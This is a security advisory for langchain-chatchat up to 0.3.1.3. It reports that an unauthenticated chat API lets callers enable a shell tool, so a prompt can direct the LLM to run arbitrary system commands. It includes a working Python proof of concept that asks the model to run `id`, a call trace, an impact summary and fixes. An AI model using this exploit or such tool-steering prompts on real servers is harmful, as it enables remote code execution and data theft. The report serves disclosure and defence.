

# Security Vulnerability Report: Arbitrary Command Execution via Unrestricted Shell Tool Access in langchain-chatchat

## Affected Scope
langchain-chatchat <= 0.3.1.3

## Vulnerability Description

The application registers a shell tool (chatchat/server/agent/tools_factory/shell.py:10) that enables system command execution and allows users to specify which tools to use via the tools parameter in API requests (chatchat/server/api_server/chat_routes.py:74-89). Without any authentication, authorization, or input validation, attackers can craft malicious prompts to instruct the LLM to execute arbitrary system commands, leading to complete server compromise.


## Reproduction & PoC

start the chatchat server with: 

```sh
pip install langchain-chatchat -U
chatchat init
# chatchat kb -r
chatchat start -a
```

run the following PoC to execute system command `id` on the server

````python
import requests

url = "http://localhost:7861/chat/chat/completions"

prompt = """
execute the following command
```bash
id
```
"""

data = {
    "messages": [
      {"role": "user", "content": prompt}
    ],
    "tools": ["shell"]
}

resp = requests.post(url, json=data)
print(resp.text)
````


## Gadget

llm generation
```
chat_iterator (chatchat\server\chat\chat.py:167)
chat (chatchat\server\chat\chat.py:263)
chat_completions (chatchat\server\api_server\chat_routes.py:176)
```

tool call
```
shell (chatchat\server\agent\tools_factory\shell.py:13)
_run (langchain_core\tools.py:750)
```

## Security Impact

This critical vulnerability allows unauthenticated remote attackers to achieve complete server compromise through remote code execution. Attackers can exfiltrate sensitive data (credentials, API keys, configuration files), install backdoors, pivot to internal networks, or launch denial-of-service attacks. The vulnerability is trivially exploitable via a simple HTTP POST request without requiring any prior system knowledge or authentication.

## Suggestion

Remove or disable the shell tool in production environments immediately. Implement proper access controls by adding authentication and authorization checks before allowing tool usage, restrict the tools parameter to a whitelist of safe tools only, and consider implementing command sandboxing if shell functionality is necessary.
